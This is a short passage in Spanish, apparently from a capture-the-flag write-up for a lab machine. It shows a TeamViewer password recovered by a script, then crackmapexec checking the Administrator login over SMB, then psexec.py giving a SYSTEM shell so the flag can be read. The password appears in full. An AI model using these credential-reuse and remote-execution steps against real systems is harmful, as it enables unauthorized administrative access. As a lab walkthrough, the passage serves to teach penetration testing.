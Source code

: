 Lanzamos el script y tenemos la contraseña del teamviewer.

contraseña encontrada es contraseña que tenemos que verificar.

```bash
crackmapexec smb 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
```

Nos da un **(Pwn3d!)**.

Nos connectamos con psexec

```bash
psexec.py WORKGROUP/Administrator@10.10.10.180 cmd.exe
password: !R3m0te!

whoami nt authority\system
```

Ya somos administrador y podemos ver la flag.

